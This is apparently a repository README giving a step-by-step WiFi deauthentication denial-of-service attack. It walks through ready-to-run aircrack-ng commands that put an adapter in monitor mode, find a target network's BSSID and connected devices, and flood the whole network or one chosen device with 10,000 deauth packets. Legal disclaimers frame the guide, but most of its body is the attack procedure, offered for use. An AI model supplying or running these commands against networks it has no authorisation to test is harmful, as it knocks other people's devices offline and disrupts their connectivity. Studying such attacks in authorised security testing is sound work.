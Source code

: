 # WiFi DOS Attack (Deauthentication Attack)

## Disclaimer  
This guide is for educational purposes only. Unauthorized access to networks is illegal and punishable under law. Only perform these actions on networks you own or have permission to test.  

---

## Step-by-Step Guide  

### Step 1: Enable Monitoring Mode  
First, put your WiFi adapter into monitoring mode. Run:  

```bash
airmon-ng start wlan0
```
Replace `wlan0` with your adapter's name. You can check the name using:  

```bash
ifconfig
```
or  

```bash
iwconfig
```

---

### Step 2: Verify Monitoring Mode  
Confirm that your network adapter is now in monitoring mode:  

```bash
ifconfig
```
or  

```bash
iwconfig
```
Once confirmed, proceed to the next step.  

---

### Step 3: Scan for Target WiFi  
Find the **BSSID** (MAC address) and **channel** of the target WiFi network:  

```bash
airodump-ng wlan0
```
This will scan for nearby WiFi networks. Once you spot your target, press `Ctrl + C` to stop scanning.  

Copy the **BSSID** and **channel** of the target WiFi.  

---

### Step 4: Focus on the Target WiFi  
Now, scan only the target WiFi network to view connected devices:  

```bash
airodump-ng --channel {channel_number} --bssid {bssid} wlan0
```
Replace `{channel_number}` and `{bssid}` with the values you copied earlier.  

This will display only the connected devices on the target network.  

---

### Step 5: Launch the Deauthentication (DOS) Attack  

#### Attack the Entire WiFi Network  
Send deauthentication packets to disconnect all devices from the target WiFi:  

```bash
aireplay-ng --deauth 10000 -a {bssid} wlan0
```
This sends 10,000 deauth packets to the target network. You can increase or decrease the number based on your needs.  

#### Attack a Specific Device  
If you want to target a specific device, use its MAC address (Station ID) from the previous scan:  

```bash
aireplay-ng --deauth 10000 -a {bssid} -c {device_mac} wlan0
```
Replace `{device_mac}` with the MAC address of the device you want to disconnect.  

---

## Notes  
- You need a **compatible WiFi adapter** that supports **monitor mode** and **packet injection**.  
- This attack **does not break WiFi encryption**; it only **disconnects devices** temporarily.  
- The attack stops when you stop running the command.
- Restart devices that you killed run service NetworkManager start

---

## Legal Warning  
Performing unauthorized attacks on networks you don’t own is illegal and can result in severe penalties. Always ensure you have explicit permission before testing network security.  
